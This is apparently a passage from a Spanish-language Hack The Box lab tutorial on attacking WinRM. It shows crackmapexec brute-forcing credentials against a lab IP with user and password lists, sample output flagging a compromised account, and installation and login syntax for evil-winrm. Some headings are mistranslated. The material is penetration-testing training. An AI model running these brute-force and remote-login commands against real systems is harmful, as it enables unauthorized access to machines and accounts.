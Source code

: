 ### **Uso de crackmapexec**

El formato general para usar CrackMapexec es el siguiente:

Servicios de red

```
xnoxos@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>

```

Servicios de red

```
xnoxos@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.listWINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)

```

La aparición de`(Pwn3d!)`es el signo de que probablemente podamos ejecutar comandos del sistema si iniciamos sesión con el usuario forzado con bruto. Otra herramienta útil que podemos usar para comunicarnos con el servicio WinRM es[Evil-Winrm](https://github.com/Hackplayers/evil-winrm), que nos permite comunicarnos con el servicio WinRM de manera eficiente.

### **Evil-Winrm**

### **Instalación de Evil-Winrm**

Servicios de red

```
xnoxos@htb[/htb]$ sudo gem install evil-winrmFetching little-plugger-1.1.4.gem
Fetching rubyntlm-0.6.3.gem
Fetching builder-3.2.4.gem
Fetching logging-2.3.0.gem
Fetching gyoku-1.3.1.gem
Fetching nori-2.6.0.gem
Fetching gssapi-1.3.1.gem
Fetching erubi-1.10.0.gem
Fetching evil-winrm-3.3.gem
Fetching winrm-2.3.6.gem
Fetching winrm-fs-1.3.5.gem
Happy hacking! :)

```

### **Uso de malvado-ganado**

Network Services

```
xnoxos@htb[/htb]$ evil-winrm -i <target-IP> -u <username> -p <password>

```
